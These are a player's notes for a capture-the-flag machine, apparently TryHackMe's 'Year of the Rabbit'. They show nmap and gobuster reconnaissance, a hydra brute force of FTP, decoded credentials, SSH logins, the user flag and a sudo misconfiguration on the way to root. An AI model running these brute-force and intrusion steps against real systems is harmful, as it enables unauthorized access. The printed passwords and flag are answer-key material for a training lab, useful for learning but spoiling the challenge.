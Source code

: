 ## IP

10.10.103.126

## NAMP 
nmap -sV ip
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 23:58 -03
Nmap scan report for 10.10.103.126 (10.10.103.126)
Host is up (0.22s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## GOBUSTER
#### Porta 80
gobuster dir -u http://10.10.103.126:80 -w /usr/share/wordlists/dirb/common.txt -t 10
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.103.126:80
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/29 00:01:56 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/09/29 00:03:39 Finished
===============================================================
```

## BURP 
```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
Host: 10.10.103.126
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

## Links
/sup3r_s3cret_fl4g.php
/intermediary.php?hidden_directory=/WExYY2Cv-qU

## on save image
http://10.10.121.8/WExYY2Cv-qU/
string image.png > image_logs

## FTP BY HYDRA
RUN
```
hydra -l ftpuser -P ./ftp_pass_list.txt ftp://10.10.121.8 
```
##### RESULT
[21][ftp] host: 10.10.121.8   login: ftpuser   password: 5iez1wGXKfPKQ

##### Connect on FTP
ftp 10.10.121.8

## Brain Fuck String Format
In ftp get cat "Eli's_Creds.txt"
use https://copy.sh/brainfuck/
Result:
```
User: eli
Password: DSpDiM1wAEwid
```

## SSH 
ssh eli@10.10.121.8 pass DSpDiM1wAEwid
ssh gwendoline@10.10.121.8 pass MniVCQVhQHUNI

## USER FLAG
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}


## Get Root
in gwendoline run 
```
sudo -l
```
Response: 
----
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

----
